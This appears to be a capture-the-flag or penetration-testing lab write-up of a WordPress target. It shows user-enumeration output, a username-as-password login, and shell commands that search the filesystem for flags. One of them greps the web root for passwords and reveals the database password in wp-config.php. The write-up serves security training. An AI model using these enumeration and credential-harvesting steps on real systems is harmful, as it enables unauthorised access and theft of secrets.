 ### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1

**Exploit Used**
  - Wordpress user enumeration vulnerability
    - ```bash
      [i] User(s) Identified:

      [+] steven
      | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
      | Confirmed By: Login Error Messages (Aggressive Detection)

      [+] michael
      | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
      | Confirmed By: Login Error Messages (Aggressive Detection)
      ```
  - Poor password hygiene
      - Password same as user name - michael:michael  

  
- `flag1.txt: {b9bbcb33e11b80be759c4e844862482d}`

```bash
michael@target1:~$ grep -r "flag1" / 2>/dev/null
Binary file /proc/1804/task/1804/cmdline matches
Binary file /proc/1804/cmdline matches
/var/www/html/service.html:<!-- flag1{b9bbcb33e11b80be759c4e844862482d} -->
```
  - `flag2.txt: {fc3fd58dcdad9ab23faca6e9a36e581c}`

```bash
michael@target1:~$ find / -iname *flag* 2>/dev/null
/proc/kpageflags
/proc/sys/kernel/acpi_video_flags
/var/www/html/wordpress/wp-includes/images/icon-pointer-flag-2x.png
/var/www/html/wordpress/wp-includes/images/icon-pointer-flag.png
/var/www/flag2.txt
```

  - `flag3.txt: {afc01ab56b50591e7dccf93122770cd2}`
  - `flag4.txt: {715dea6c055b9fe3337544932f2941ce}`


```bash
michael@target1:~$ grep -r "PASSWORD" /var/www/html/ 2>/dev/null
.
.
.
/var/www/html/wordpress/wp-admin/setup-config.php:      define('DB_PASSWORD', $pwd);
/var/www/html/wordpress/wp-admin/setup-config.php:                      case 'DB_PASSWORD' :
/var/www/html/wordpress/wp-config.php:define('DB_PASSWORD', 'R@v3nSecurity');
/var/www/html/wordpress/wp-config-sample.php:define('DB_PASSWORD', 'password_here');
```
